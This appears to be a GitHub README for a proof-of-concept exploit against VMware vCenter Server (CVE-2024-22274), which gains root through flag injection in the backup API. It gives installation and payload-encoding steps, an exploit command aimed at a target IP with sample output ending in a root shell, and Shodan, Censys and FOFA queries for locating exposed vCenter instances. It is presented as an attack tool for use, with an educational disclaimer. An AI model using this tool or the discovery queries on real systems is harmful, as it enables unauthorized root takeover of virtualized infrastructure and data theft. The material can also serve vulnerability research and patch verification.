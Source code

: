 <h1 align="center">
    Privilege Escalation: VMware vCenter Server Authenticated RCE
</h2>

<p align="center">
    <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2FCVE-2024-22274-RCE">
    <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2FCVE-2024-22274-RCE&label=Visitors&countColor=%2337d67a" />
    </a>
    <a href="https://www.facebook.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Facebook-%231877F2.svg?style=for-the-badge&logo=Facebook&logoColor=white" alt="Facebook">
    </a>
      <a href="https://www.twitter.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Twitter-%23000000.svg?style=for-the-badge&logo=X&logoColor=white" alt="X">
    </a>
    <a href="https://medium.com/@l0n3m4n">
        <img src="https://img.shields.io/badge/Medium-12100E?style=for-the-badge&logo=medium&logoColor=white" alt="Medium">
    </a>
    <a href="https://www.python.org/">
    <img src="https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54" alt="Python">
    </a>
    <a href="https://www.kali.org/">
    <img src="https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white" alt="Kali">      
    </a>
</p>

## 📜 Description 

The “com.vmware.appliance.recovery.backup.job.create” and the
“com.vmware.appliance.recovery.backup.validate” API components are vulnerable to a flag
injection attack that can be leveraged to execute arbitrary commands as the root user on
the target system."

## 📚 Table of Contents
- 📜 [Description](#-description)
- 🛠️ [Installation](#-installation)
- ⚙️ [Usage](#-usage)
- 🔎 [Discovery](#-discovery)
- 📝 [Notes](#notes)
- 💁 [References](#-references)
- 📢 [Disclaimer](#disclaimer)
  
## 🛠️ Installation and Configuration 
> [!NOTE]
> To work with this PoC exploit, you must have valid credentials and log in to the VMware vCenter Server shell via SSH. The user must have the "admin" role, as specified in the `vcenter_creds.txt` file.
```bash
$ git clone https://github.com/l0n3m4n/CVE-2024-22274-RCE.git
$ cd CVE-2024-22274-RCE 
$ python3 -m venv venv && source venv/bin/activate
$ pip install -r requirements.txt 
```
> Run or modify `user2base64.sh` to  encode the newuser added into base64 and it automatically create `payload.txt`
```bash

$ bash user2base64.sh
Payload has been encoded to base64, saved payload.txt                                 
```

## ⚙️ Usage
![VMware-vCenter](/assets/VMware-vCenter.png)

### Vulnerable Version
![vulnerable-version](/assets/vulnerable-version.png)
### Successful Execution and Exploitation
```bash
$ python3 CVE-2024-22274-RCE.py -t 192.168.56.103 -P 22 -p payload.txt -c vCenter_creds.txt
 ___ ___ _______                                          ______               __              
|   |   |   |   |.--.--.--.---.-.----.-----.______.--.--.|      |.-----.-----.|  |_.-----.----.
|   |   |       ||  |  |  |  _  |   _|  -__|______|  |  ||   ---||  -__|     ||   _|  -__|   _|
 \_____/|__|_|__||________|___._|__| |_____|       \___/ |______||_____|__|__||____|_____|__|  
    
                Author: l0n3m4n | vCenter RCE: CVE-2024-22274 | PoC: @mbadanoiu
                                                                              
[+] Connected to 192.168.56.103 via SSH
[+] Payload executed successfully. Output: 
   uid=0(root) gid=0(root) groups=0(root)

[+] Exploitation successful: You have root access.
[+] Finished executing commands on 192.168.56.103

```
### Successful Execution but No Root Access
> This example means your getting connected but the payload not correctly configured or loaded. [Refer to PDF PoC](/assets/VMware-vCenter.pdf) for more detailed infomation.
```bash
 ___ ___ _______                                          ______               __              
|   |   |   |   |.--.--.--.---.-.----.-----.______.--.--.|      |.-----.-----.|  |_.-----.----.
|   |   |       ||  |  |  |  _  |   _|  -__|______|  |  ||   ---||  -__|     ||   _|  -__|   _|
 \_____/|__|_|__||________|___._|__| |_____|       \___/ |______||_____|__|__||____|_____|__|  
    
                Author: l0n3m4n | vCenter RCE: CVE-2024-22274 | PoC: @mbadanoiu
                                                                              
[+] Connected to 192.168.56.103 via SSH
[+] Payload executed successfully. Output: 
   No privileges escalation detected.

[+] Exploitation failed: Root access not obtained.
[+] Finished executing commands on 192.168.56.103
```
### Missing Username or Password in Configuration File
```bash
 ___ ___ _______                                          ______               __              
|   |   |   |   |.--.--.--.---.-.----.-----.______.--.--.|      |.-----.-----.|  |_.-----.----.
|   |   |       ||  |  |  |  _  |   _|  -__|______|  |  ||   ---||  -__|     ||   _|  -__|   _|
 \_____/|__|_|__||________|___._|__| |_____|       \___/ |______||_____|__|__||____|_____|__|  
    
                Author: l0n3m4n | vCenter RCE: CVE-2024-22274 | PoC: @mbadanoiu
                                                                              
[-] Error: Username or password not found in configuration file.
```
### Connection Failure or SSH Error
> Please check the host address and credentials.
```bash
 ___ ___ _______                                          ______               __              
|   |   |   |   |.--.--.--.---.-.----.-----.______.--.--.|      |.-----.-----.|  |_.-----.----.
|   |   |       ||  |  |  |  _  |   _|  -__|______|  |  ||   ---||  -__|     ||   _|  -__|   _|
 \_____/|__|_|__||________|___._|__| |_____|       \___/ |______||_____|__|__||____|_____|__|  
    
                Author: l0n3m4n | vCenter RCE: CVE-2024-22274 | PoC: @mbadanoiu
                                                                              
[-] Error: [SSH Error] Connection to 192.168.56.103 failed.
```
## 🔎 Discovery 
- **CENSYS**: `"VMware vCenter"`, **Filter**: `services.port: 443 AND tags: "VMware"`
- **FOFA**: `title="VMware vCenter"`, **Filter**: `port="443" && title="VMware vCenter"`
- **SHODAN**: `"VMware vCenter"`, **Filter**: `port:443 "VMware vCenter"`

## 📝 Notes
This exploit PoC won’t be effective if you don’t understand how to interpret the script, as it has been intentionally altered to prevent "script kiddies"  from simply copying and running it without comprehension. VMware vCenter Server is a critical component in managing virtualized environments, if someone access to it they can gain a full control over the virtual infrastructure and exfiltrate sensitive data. this PoC is designed for those already have small technical expertise to use it correctly, so if you’re script kiddies aiming to cause disruption without understanding the implications this exploit won’t be useful for you.

## 💁 References
- http://www.vmware.com/security/advisories
- https://nvd.nist.gov/vuln/detail/CVE-2024-22274
- https://www.cnnvd.org.cn/home/globalSearch?keyword=CNNVD-202405-4049
- https://bdu.fstec.ru/vul/2024-05108
- https://github.com/advisories/GHSA-xm44-79f8-q8r7
  
## 📢 Disclaimer
This tool is provided for educational and research purposes only. The creator assumes no responsibility for any misuse or damage caused by the tool. [create issue](https://github.com/l0n3m4n/CVE-2024-22274-RCE/issues)

